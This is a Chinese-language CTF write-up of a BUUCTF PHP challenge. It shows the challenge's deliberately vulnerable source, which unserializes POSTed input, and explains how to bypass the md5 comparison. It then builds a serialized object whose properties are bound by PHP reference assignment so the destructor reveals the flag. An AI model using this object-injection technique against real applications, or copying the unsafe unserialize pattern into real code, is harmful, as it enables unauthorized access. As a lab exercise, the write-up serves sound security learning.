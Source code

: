 ### PHP & 引用相同内存

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/68775da758cb8da5c8b8c6aa.png)

打开靶场给出源码

```php
<?php
/**
 * Created by PhpStorm.
 * User: jinzhao
 * Date: 2019/10/6
 * Time: 8:04 PM
 */

highlight_file(__FILE__);

class BUU {
   public $correct = "";
   public $input = "";

   public function __destruct() {
       try {
           $this->correct = base64_encode(uniqid());
           if($this->correct === $this->input) {
               echo file_get_contents("/flag");
           }
       } catch (Exception $e) {
       }
   }
}

if($_GET['pleaseget'] === '1') {
    if($_POST['pleasepost'] === '2') {
        if(md5($_POST['md51']) == md5($_POST['md52']) && $_POST['md51'] != $_POST['md52']) {
            unserialize($_POST['obj']);
        }
    }
}
```

md5 绕过很简单，科学计数法及数组绕过都可以

这才来到最关键的地方，如何在序列化前让 `$this->correct === $this->input`  呢？

我们创建 BUU 类后，重新给 $this->correct 赋值成 $this->input 的值

在 PHP 中，`&` 表示**引用赋值**，效果是：

 两个变量或者属性同时指向同一块内存，**任何一方变化，另一方立刻同步变化**

```php
# 让 $b1->correct 和 $b1->input 两个属性引用同一块内存地址，即：它们两个绑定为同一个变量
$b1->correct=&$b1->input;
```

```php
$b1 = new BUU();
$b1->correct=&$b1->input;
print_r(serialize($b1));
```